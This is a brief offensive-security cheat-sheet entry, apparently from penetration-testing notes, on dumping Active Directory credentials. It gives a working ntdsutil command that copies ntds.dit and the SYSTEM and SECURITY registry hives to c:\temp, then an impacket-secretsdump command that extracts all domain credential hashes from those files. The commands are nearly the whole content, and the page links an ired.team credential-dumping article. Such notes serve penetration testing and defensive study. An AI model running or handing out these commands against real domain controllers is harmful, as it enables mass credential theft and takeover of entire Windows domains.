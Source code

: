 # ntdsutil.exe - no credential required

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration" %}

{% code overflow="wrap" %}
```bash
CMD> powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

# We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

# Dump all credentials 
Kali> impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local

```
{% endcode %}

